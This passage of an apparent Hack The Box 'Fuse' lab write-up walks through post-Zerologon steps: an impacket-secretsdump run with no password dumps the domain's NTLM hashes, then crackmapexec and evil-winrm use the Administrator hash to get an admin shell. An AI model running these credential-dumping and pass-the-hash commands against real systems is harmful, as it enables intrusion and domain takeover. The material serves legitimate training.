 Afterwards, we can then dump the hashes using ```impacket-secretsdump``` without any credentials

```
┌──(zerologon)─(kali㉿kali)-[~/Desktop/htb_labs/fuse/CVE-2020-1472]
└─$ impacket-secretsdump -just-dc -no-pass fabricorp/FUSE\$@10.10.10.193 
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8ee7fac1bd38751dbff06b33616b87b0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc-print:1104:aad3b435b51404eeaad3b435b51404ee:38485fd7730cca53473d0fa6ed27aa71:::
bnielson:1105:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::
sthompson:1601:aad3b435b51404eeaad3b435b51404ee:5fb3cc8b2f45791e200d740725fdf8fd:::
tlavel:1602:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::
pmerton:1603:aad3b435b51404eeaad3b435b51404ee:e76e0270c2018153275aab1e143421b2:::
svc-scan:1605:aad3b435b51404eeaad3b435b51404ee:38485fd7730cca53473d0fa6ed27aa71:::
bhult:7101:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::
dandrews:7102:aad3b435b51404eeaad3b435b51404ee:689583f00ad18c124c58405479b4c536:::
mberbatov:7601:aad3b435b51404eeaad3b435b51404ee:b2bdbe60565b677dfb133866722317fd:::
astein:7602:aad3b435b51404eeaad3b435b51404ee:2f74c867a93cda5a255b1d8422192d80:::
dmuir:7603:aad3b435b51404eeaad3b435b51404ee:6320f0682f940651742a221d8218d161:::
FUSE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

Using ```crackmapexec```, we can also see that we are able to authenticate using winrm

```
┌──(zerologon)─(kali㉿kali)-[~/Desktop/htb_labs/fuse/CVE-2020-1472]
└─$ crackmapexec winrm 10.10.10.193 -u administrator -H aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e
WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193 
```

Knowing that, we will use ```evil-winrm``` to authenticate to the vulnerable server

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.10.193 -u administrator -H 370ddcf45959b2293427baa70376e14e                1 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
fabricorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
